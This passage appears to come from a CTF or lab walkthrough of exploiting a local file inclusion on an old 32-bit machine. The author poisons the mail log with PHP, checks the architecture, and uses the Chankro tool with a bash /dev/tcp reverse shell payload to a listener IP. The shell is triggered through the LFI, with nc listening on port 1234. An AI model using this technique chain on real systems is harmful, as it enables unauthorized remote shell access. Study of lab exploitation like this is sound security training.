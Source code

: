 ```shell
...SNIPPED...
Final-Recipient: rfc822; a@home.lan
Original-Recipient: rfc822; a
Action: failed
Status: 5.1.1
Diagnostic-Code: X-Postfix; unknown user: "a"
...SNIPPED...
```
And that means that at least the file doesn't fail, when I check if the file `/var/tmp/res.txt` was created:
```shell
./sendemail.sh "<?php ini_set('display_errors', 1); echo
> file_get_contents('/var/tmp/res.txt'); ?>"
```
And I use the LFI, then I get the output:
```shell
...SNIPPED...
<b>Warning</b>: file_get_contents(/var/tmp/res.txt): failed to open
stream: No such file or directory in <b>/var/mail/www-data</b> on line
<b>252</b><br />
...SNIPPED...
```
And after a lot of thinking about why the script is not executed, then I remember that the machine is from 2014, and maybe the architecture is not `64-bit`. When I google `PHP know if a server is 32 or 64 bits`, then I get that if the constant `PHP_INT_SIZE` is `4`, then it is `32-bit`, and if that constant is `8`, then it is `64-bit`- When I try it:
```shell
$ ./sendemail.sh "<?php ini_set('display_errors', 1);
> echo PHP_INT_SIZE; ?>"

...SNIPPED...
4
...SNIPPED...
```
And I check the `LFI`, then I can confirm that it is `32 bits`, and I have to change my `.so` file. When I write the following reverse shell payload to a file called `rs.sh`:
```shell
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/192.168.2.31/1234 0>&1'
```
And I run the `Chancro` script again, and I use the `--arch 32` switch:
```shell
$ python2 chankro.py --arch 32 --input rs.sh --output chan32.php \
> --path /var/tmp
```
And it creates the `PHP` script `chan32.php`, but I modify it to send a valid email to avoid the noisy errors messages, and I reset the machine, and I send it with the `bash` script:
```shell
$ ./sendemail.sh --file chan32.php
```
And I open a listener with the `nc` command:
```shell
$ nc -lnvp 1234
```
And I use the `LFI` to run the reverse shell, then it works:
